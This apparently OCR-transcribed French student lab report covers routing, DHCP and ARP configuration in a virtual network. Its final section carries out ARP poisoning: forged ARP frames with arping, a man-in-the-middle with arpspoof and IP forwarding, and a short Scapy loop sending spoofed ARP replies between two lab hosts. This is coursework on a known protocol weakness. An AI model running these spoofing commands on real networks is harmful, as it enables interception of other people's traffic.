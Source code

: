 # TP2 : Routage, DHCP et DNS

# I. Routage
🌞 **Configuration de `router.tp2.efrei`**

Le ping fonctionne :
```
[root@localhost toto]# ping efrei.fr
PING efrei.fr (51.255.68.208) 56(84) bytes of data.
64 bytes from ns3028977.ip-51-255-68.eu (51.255.68.208): icmp_seq=1 ttl=61 time 18.5 ms
64 bytes from ns3028977.ip-51-255-68.eu (51.255.68.208): icmp_seq=2 ttl=61 time=22.3 ms
64 bytes from ns3028977.ip-51-255-68.eu (51.255.68.208): icmp_seq=3 ttl=61 time 23.7 ms
64 bytes from ns3028977.ip-51-255-68.eu (51.255.68.208): icmp_seq=4 ttl=61 time 24.3 ms
^C
efrei.fr ping statistics
4 packets transmitted, 4 received, 0% packet loss, time 3009ms
```

La config :
```
[root@localhost toto]# ip a
1: 10: <LOOPBACK, UP, LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000 link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo valid_lft forever preferred_lft forever
inet6:: 1/128 scope host valid_lft forever preferred_lft forever

2: enp0s3: <BROADCAST, MULTICAST, UP, LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000 link/ether 08:00:27:5f: 7:54 brd ffffffffffff
inet 10.2.1.254/24 brd 10.2.1.255 scope global nopref ixroute enp0s3
valid_lft forever preferred_lft forever inet6 fe80:: a00:27ff: fe5f: 7d54/64 scope link valid_lft forever preferred_lft forever

3: enp0s8: <BROADCAST, MULTICAST, UP, LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000 link/ether 08:00:27:d9:f1:c8 brd ffffffffffff
inet 192.168.122.49/24 brd 192.168.122.255 scope global dynamic nopref ixroute enpos8 valid_lft 3145sec preferred_lft 3145sec inet6 fe80:: 99ff:d312:ae06:7d23/64 scope link nopref ixroute valid_lft forever preferred_lft forever
```

🌞 **Configuration de `node1.tp2.efrei`**

```
root@localhost totol# ip a
1: 10: <LOOPBACK, UP, LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000 link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo valid_lft forever preferred_lft forever
inet6:: 1/128 scope host valid_lft forever preferred_lft forever

2: enp0s3: <BROADCAST, MULTICAST, UP, LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000 link/ether 08:00:27:8d:55:5f brd ff ff ff ff ff ff
inet 10.2.1.1/24 brd 10.2.1.255 scope global nopref ixroute enpos3
valid_lft forever preferred_lft forever inet6 fe80::a00:27ff: fe8d: 555f/64 scope link valid_lft forever preferred_lft forever
```

```
root@localhost toto]# ping 10.2.1.254
PING 10.2.1.254 (10.2.1.254) 56(84) bytes of data.
64 bytes from 10.2.1.254: icmp_seq=1 ttl=64 time 3.17 ms
64 bytes from 10.2.1.254: icmp_seq=2 ttl=64 time-3.15 ms
64 bytes from 10.2.1.254: icmp_seq=3 ttl=64 time=2.67 ms
C
--- 10.2.1.254 ping statistics
3 packets transmitted, 3 received, 0% packet loss, time 2005ms
rtt min/avg/max/mdev = 2.666/2.994/3.167/0.232 ms
```

```
root@localhost toto]# cat /etc/sysconfig/network-scripts/ifcfg-enp0s3
DEVICE=enpos3
NAME=lan
ONBOOT-yes
BOOTPROTO-static
IPADDR=10.2.1.1
NETMASK-255.255.255.0
GATEWAY 10.2.1.254

[toto@localhost toto]# ping google.com
PING google.com (172.217.20.174) 56(84) bytes of data.
64 bytes from waw02s07-in-f174.1e100.net (172.217.20.174): icmp_seq=1 ttl=59 time=18.5 ms 64 bytes from waw02s07-in-f174.1e100.net (172.217.20.174): icmp_seq=2 ttl=59 time=23.0 ms
google.com ping statistics
2 packets transmitted, 2 received, 0% packet loss, time 1006ms
rtt min/avg/max/mdev = 18.519/20.777/23.036/2.258 ms
```

```
traceroute to google.com (142.250.201.174), 30 hops max, 60 byte packets
1 gateway (18.2.1.254) 4.431 ms 4.311 ms 4.030 ms
2 gns3vm (192.168.122.1) 6.451 ms 8.093 ms 8.199 ms
3 gateway (10.0.3.2) 9.869 ms 9.727 ms 19.348 ms
4 ***
5 ***
6 ae106-0.ncpoi201.rbci.orange.net (193.249.214.138) 28.941 ms 9.988 ms 9.993 ms
7 ***
8 ***
9 ***
10 74.125.50.250 (74.125.50.250) 21.847 ms 18.287 ms 19.860 ms
11 108.170.255.153 (108.170.255.153) 22.461 ms 22.547 ms *
12 142.251.49.132 (142.251.49.132) 21.521 ms 22.064 ms 142.251.64.125 (142.251.64.125) 20.991 ms
13 142.251.64.125 (142.251.64.125) 21.184 ms 192.178.96.136 (192.178.96.136) 21.883 ms par21s23-in-f14.1e100.net
```

🌞 **Afficher la CAM Table du switch**
```
10U1#show mac address-table
			Mac Address Table
---------------------------------------
Vlan  Mac Address   Type     Ports
----  ------------   -------  -----
1    0800.275f.7d54  DYNAMIC   Et0/1
1    0800.2780.555f  DYNAMIC   Et0/0
Total Mac Addresses for this criterion: 2
```

# II. Serveur DHCP
🌞 **Install et conf du serveur DHCP** sur `dhcp.tp2.efrei`
```
[root@localhost toto]# cat /etc/dhcp/dhcpd.conf
authoritative;
subnet 10.2.1.0 netmask 255.255.255.0{
	range 10.2.1.10 10.2.1.50;
	option broadcast-address 10.2.1.1;
	option routers 10.2.1.254;
}
```

🌞 **Test du DHCP** sur `node1.tp2.efrei`
```
[root@localhost toto]# nmcli connection up lan
Connection successfully activated (D-Bus active path:/org/freedesktop/NetworkManager/ActiveConnection/3)

[toto@localhost toto]# ip a
1: 10: <LOOPBACK, UP, LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
	link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
	inet 127.0.0.1/8 scope host lo
		valid_lft forever preferred_Ift forever
	inet6:: 1/128 scope host
		valid_lft forever preferred_lft forever

2: enp0s3: <BROADCAST, MULTICAST, UP, LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
	link/ether 08:00:27:8d:55:5f brd ffffffffffff
	inet 10.2.1.10/24 brd 10.2.1.255 scope global dynamic nopref ixroute enp0s3
		valid_lft 43197sec preferred_lft 43197sec
	inet6 fe80::a00:27ff: fe8d: 555f/64 scope link
		valid_lft forever preferred_lft forever
```

🌟 **BONUS**
Sur vpcs :
```
PC1> dhcp
DORA IP 10.2.1.11/24 GW 10.2.1.254

PC1> show ip
NAME        : PC1[1]
IP/MASK     : 10.2.1.11/24
GATEWAY     : 10.2.1.254
DNS         : 1.1.1.1
DHCP SERVER : 10.2.1.253
DHCP LEASE  : 43228, 43233/21616/37828
MAC         : 00:50:79:66:68:00
LPORT       : 20006
RHOST:PORT  : 127.0.0.1:20007
MTU         : 1500
```

🌞 **Wireshark it !**
[Echange DORA](DORA.pcapng)
# III. ARP
## 1. Les tables ARP
🌞 **Affichez la table ARP de `router.tp2.efrei`**
```
[root@localhost toto]# ip neighbor show
10.2.1.253 dev enp0s3 lladdr 08:00:27:f1:68:a8 STALE
10.2.1.10 dev enp0s3 lladdr 08:00:27:8d:55:5f STALE
```

🌞 **Capturez l'échange ARP avec Wireshark**
[Echange ARP](ARP.pcapng)

## 2. ARP poisoning
🌞 **Envoyer une trame ARP arbitraire**
```
root@debian:/home/toto# arping -c 2s 55:55:55:55:55:55 10.2.1.10
ARPING 10.2.1.10
Timeout
Timeout
 --- 10.2.1.10 statistics ---
2 packets transmitted, 0 packets received, 100% unanswered (0 extra)
```

-> 10.2.1.10 pense que mon adresse mac est `55:55:55:55:55:55` YEEESSSSS !!!
ça sert à rien à par prouver que ARP est vulnérable *by design*.

🌞 **Mettre en place un ARP MITM**
```
root@debian:/home/toto# cat /etc/sysctl.conf | grep ip_forward
net.ipv4.ip_forward=1
```

```
root@debian:/home/toto# arpspoof -t 10.2.1.254 10.2.1.10 -r
```
"Fait moi passer pour 10.2.1.254 auprès de 10.2.1.10 et inversement."

Avant l'attaque : (machine node)
```
[root@localhost toto]# ip neigh
10.2.1.17 dev enpos3 lladdr 08:00:27:22:3c: af STALE
10.2.1.254 dev enpos3 lladdr 08:00:27:5f: 7:54 REACHABLE
```
Après l'attaque : (machine node)
```
[root@localhost toto]# ip neigh
10.2.1.17 dev enpos3 lladdr 08:00:27:22:3c: af STALE
10.2.1.254 dev enpos3 lladdr 08:00:27:22:3c:af STALE
```

🌞 **Capture Wireshark `arp_mitm.pcap`**
[ARP MITM](arp_mitm.pcapng)

🌞 **Réaliser la même attaque avec Scapy**!
```python
from scapy.all import *

pk = Ether(dst="08:00:27:8d:55:5f")/ARP (pdst="10.2.1.10", psrc="10.2.1.254")
pk2 = Ether(dst="08:00:27:d9:f1:c8")/ARP (pdst="10.2.1.254", psrc="10.2.1.10")

while True:
	sendp(pk, iface="enp0s3")
	sendp(pk2, iface="enp0s3")
```

